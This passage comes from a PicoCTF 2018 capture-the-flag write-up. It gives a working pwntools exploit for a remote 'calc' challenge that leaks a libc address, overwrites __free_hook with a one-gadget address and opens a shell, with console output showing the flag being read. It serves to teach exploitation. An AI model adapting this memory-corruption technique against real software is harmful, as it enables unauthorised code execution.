Or, the same steps, but using `pwntools`:

```python
#!/bin/env python3

from pwn import *

context.update(arch='amd64', os='linux')

#p = process(["ltrace", "-o", "trace", "./calc"])
#p = gdb.debug("./calc", "break main\ncontinue\n\nbreak 284\nbreak 295\ncontinue\n")
#p = process("./calc")
p = remote('2018shell.picoctf.com', 59874)

p.recvuntil(">> ")
p.sendline("0 : i 0 : o 1 : i 9 # # # # # # # # # o o \t")

p.recvuntil("Invalid operation '")
libcaddr = int(p.recvuntil("'")[:-1]) - 0x3c4b78
print("Libc Addr: 0x%016x" % libcaddr)

gadgetaddr = (libcaddr + 0x4526a)
print("gadget addr: 0x%016x" % gadgetaddr)

freehookaddr = libcaddr + 0x3c67a0 #actually 8 bytes before __free_hook
print("free hook: 0x%016x" % freehookaddr)

p.recvuntil(">> ")

p.sendline("4199915 : ! 1 " + str(freehookaddr) + " = = : xxyyzzwwabcdefghijklmnop 2 # # 4199915 : ! 1 " + str(gadgetaddr))

p.interactive()
```

Let's try it out, the challenge is available at `2018shell.picoctf.com`, port 59874.

```
$ python3 pwn_calc2.py
[+] Opening connection to 2018shell.picoctf.com on port 59874: Done
Libc Addr: 0x00007f7809afe000
gadget addr: 0x00007f7809b4326a
free hook: 0x00007f7809ec47a0
[*] Switching to interactive mode
4199915
0
$ ls
calc
calc.c
flag
libc.so.6
xinet_startup.sh
$ cat flag
picoCTF{===REDACTED===}
```
{:contains-term}

**Boom**! If you managed to wrap your head around this one, the remaining challenges are by and large less difficult. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue.
